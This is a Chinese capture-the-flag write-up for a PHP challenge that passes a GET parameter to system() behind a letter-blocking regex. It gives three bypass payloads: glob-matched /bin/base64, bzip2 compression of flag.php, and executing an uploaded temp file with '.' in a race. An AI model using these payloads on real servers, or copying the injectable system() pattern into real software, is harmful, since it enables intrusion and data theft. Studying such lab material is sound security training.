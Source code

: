 ```bash
<?php
// 你们在炫技吗？
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
}
```
字母都过滤了

法一与法二都带有数字，法三不带有数字

**法一**：
利用/bin/base64 flag.php%0a 将指定的文件的内容以base64加密的形式输出
```
?c=/???/????64 ????????%0a
```
---
**法二**：
姿势一有些类似，不过利用的是/usr/bin目录:
主要放置一些应用软件工具的必备执行档主要：diff、zip、last、less、make、passwd、bzip2例如c++、g++、gcc、chdrv、diff、dig、du、eject、elm、free、gnome、 zip、htpasswd、kfm、ktop、last、less、locale、m4、make、man、mcopy、ncftp、 newaliases、nslookup passwd、quota、smb、wget等。

大师傅们利用的是/usr/bin下的bzip2：
```
?c=/???/???/????2 ????????
?c=/usr/bin/bzip2 flag.php
```
把flag.php压缩，然后访问url+flag.php.bz2就可以把压缩后的flag.php给下载下来

---

**法三**：

[无数字字母webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)

>看了之后才发现，我们可以通过`post一个文件`(文件里面的sh命令)，在上传的过程中，通过`.(点)`去执行执行这个文件。(形成了条件竞争)。一般来说这个文件在linux下面保存在/tmp/php`??????`一般后面的6个字符是随机生成的有大小写。（可以通过linux的匹配符去匹配）
注意：通过.去执行sh命令不需要有执行权限

在这个之前我们需要构造一个post上传文件的数据包
抓包
构造 `?c=.+/???/????????[@-[]`  并添加命令

注：后面的[@-[]是linux下面的匹配符，是进行匹配的大写字母。

![](https://img-blog.csdnimg.cn/20210213220752181.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
![](https://img-blog.csdnimg.cn/20210213220759215.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

----
